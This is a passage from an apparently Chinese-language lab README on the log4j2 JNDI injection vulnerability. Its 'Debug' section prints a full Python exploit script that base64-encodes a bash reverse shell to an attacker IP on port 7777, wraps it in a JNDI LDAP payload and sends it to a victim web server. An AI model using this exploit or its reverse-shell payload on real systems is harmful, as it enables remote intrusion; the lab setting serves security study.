 ### 4.5 Demo

[![asciicast](https://asciinema.org/a/667333.svg)](https://asciinema.org/a/667333)

### 4.6 Debug

在使用以下的 `python` 脚本验证 `log4j2` 漏洞时，遇到了下面的问题：

```python
"""log4j2 JNDI 注入"""

import base64
import urllib.parse

import requests

# ATTACKER_HOSTNAME = "kali-attacker.mlab"
ATTACKER_HOSTNAME = "192.168.56.162"
VICTIM_HOSTNAME = "ubuntu-victim.mlab"

shell_redirection = f"bash -i >& /dev/tcp/{ATTACKER_HOSTNAME}/7777 0>&1"

shell_redirection_bytes = shell_redirection.encode("ascii")
shell_redirection_b64 = base64.b64encode(shell_redirection_bytes).decode("ascii")

print(f"Encoded string: {shell_redirection_b64}")


params = {
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjIxNC83Nzc3IDA+JjE=}",
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjU2LjE2Mi83Nzc3IDA%2BJjE%3d}",
    "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/"
    # + urllib.parse.quote_plus(shell_redirection_b64)
    + shell_redirection_b64
    + "}",
}


response = requests.get(
    "http://ubuntu-victim.mlab:8080/hello",
    params=params,
    verify=False,
    timeout=10,
)

print(response.request.url)
print(response.text)
```

![](.assets_img/README/base64_unmatch.png)
